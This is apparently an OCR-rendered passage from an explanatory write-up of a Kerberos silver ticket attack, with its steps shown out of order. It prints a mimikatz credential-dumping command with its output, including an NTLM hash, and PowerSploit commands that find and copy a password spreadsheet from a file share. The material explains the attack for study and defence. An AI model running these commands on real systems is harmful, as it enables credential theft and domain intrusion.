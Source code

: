 
Compromise service account credentials


Forges Kerberos TGS tickets


Uses forged tickets to further objectives


Step 3: In the previous step, the adversary forged a silver ticket and injected it into a new cmd.exe session. The silver ticket the attacker minted specified the cifs service, which will allow the attacker to use the forged TGS to access file shares. Because the TGS is forged, it can be created for a user that does not actually exist in the domain making it harder for responders to track the adversary.

In this example, the adversary uses the forged ticket and the Find-InterestingFile cmdlet, provided by the PowerShell module PowerSploit, to scan the file share for and exfiltrate sensitive data.

Console
PS> Find-InterestingFile -Path \\FileServer1.domain.com\S$\shares\
 
 
FullName       : \\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx
Owner          : DOMAIN\JOED
LastAccessTime : 27/07/2020 12:47:44
LastWriteTime  : 27/07/2020 12:47:44
CreationTime   : 10/04/2011 10:04:50
Length         : 76859
 
PS> Copy-Item -Path "\\FileServer1.domain.com\S$\shares\IT\Service Account Passwords.xlsx" -Destination "C:\Windows\Temp\a20ds3"
PS>


Step 1: To gain the ability to mint TGS tickets, an adversary must first compromise the password hash of a service account. In this example, an adversary has compromised a file server but wishes to gain persistent and stealthy access. They begin the process of creating silver tickets by compromising the necessary password hash.

Console
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
 
mimikatz(commandline) # privilege::debug
Privilege '20' OK
 
mimikatz(commandline) # sekurlsa::logonpasswords
# ... output truncated ... #
Authentication Id : 0 ; 29151002 (00000000:01bccf1a)
Session           : Interactive from 5
User Name         : DWM-5
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 21/07/2020 10:26:16
SID               : S-1-5-90-0-5
        msv :
         [00000003] Primary
         * Username : FileServer1$
         * Domain   : DOMAIN
         * NTLM     : 281fd98680ed31a9212256ada413db50
         * SHA1     : c8fe518dfa728eb92eb2566328f0123e3bcb2717
# ... output truncated ... #
 